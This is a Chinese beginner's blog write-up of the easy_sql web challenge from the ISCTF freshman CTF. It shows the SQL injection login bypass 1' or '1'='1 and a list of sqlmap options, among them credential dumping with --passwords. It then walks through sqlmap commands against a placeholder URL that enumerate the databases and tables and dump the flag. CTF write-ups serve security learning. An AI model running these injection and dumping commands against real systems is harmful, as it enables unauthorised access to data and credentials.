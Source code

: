 <!--yml
category: 未分类
date: 2022-04-26 14:41:58
-->

# ISCTF新生赛 Web easy_sql题解（sqlmap的基操）_Jeff_54088的博客-CSDN博客

> 来源：[https://blog.csdn.net/Jeff_12138/article/details/120942170](https://blog.csdn.net/Jeff_12138/article/details/120942170)

# 

<u>***本人小白入门，不到之处请大侠指点！！！***</u>

先观察题目的提示，（由于是新生赛，所以提示比较明显）显然是需要我们用SQLMAP进行操作。

不妨输入 用户名 1   密码 1' or '1'='1 来进行简单的测试，果然登陆上了。但是返回的是“登陆成功”并没有返回数据库中的内容，于是也可以尝试尝试sql盲注的思路。

![](img/fd828526ad642d3b3f937520777deaab.png)

# 一、sqlmap解法

sqlmap的基本命令：[Kali Linux 漏洞利用工具集 sqlmap 教程 - 付杰博客](https://www.fujieace.com/kali-linux/courses/sqlmap-3.html "Kali Linux 漏洞利用工具集 sqlmap 教程 - 付杰博客")

某大神的sqlmap学习笔记：[Kali Linux学习笔记—SQLMAP 自动注入_江河湖海：D的博客-CSDN博客](https://blog.csdn.net/weixin_43653897/article/details/111519201 "Kali Linux学习笔记—SQLMAP 自动注入_江河湖海：D的博客-CSDN博客")

这里列举几个常用的操作命令：

> -dbs 获取所有数据库
> 
> --current-db  当前使用的数据库
> 
> --users  所有用户
> 
> --current-user  数据库使用账户
> 
> --is-dba 当前用户权限（是否为root权限）
> 
> --passwords  数据库账户与密码
> 
> -D 数据库名 --tables  查看指定数据库的所有表
> 
> -D 数据库名 -T 表名 --columns  查看指定数据库指定表的所有字段
> 
> -D 数据库名 -T 表名 -C 字段名 -dump 查看指定字段所有的值
> 
> --random-agent 构造随机user-agent
> 
> --time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）

下面来写写这个题目，用sqlmap的解决方案（sqlmap的最最最最基础的操作）

首先看看存不存在注入点

![](img/209aa3f1c97e7153c58d5a313f53eaa7.png)

> sqlmap -u "http://xxxx" -dbs

再看看，所连接的数据库有哪些

![](img/4c2b8c8574715ea15cd6e3bdba5942eb.png)

 进入users数据库，看看有哪些表

> sqlmap -u "http://xxxx" -D users --tables

![](img/263058b2fb5143b372b55493ee97303f.png)

 发现了flag表单，说明思路是正确的，继续访问

> sqlmap -u "http://xxxx" -D users -T flag --columns

![](img/c1f641745b4023c2b1786d36f40be3ac.png)

找到了flag字段，继续看看字段有哪些值

> sqlmap -u "http://xxxx" -D users -T flag -C flag --dump

![](img/11a21ed9b5b980144882ffcc110e59d3.png)

** 最后找到了flag！！！**

~~<u>*注：学长大佬说，本题也可以用SQL盲注的思路来解决，但是本人水平有限，还没有用这种方法解出来，日后慢慢研究！！！*</u>~~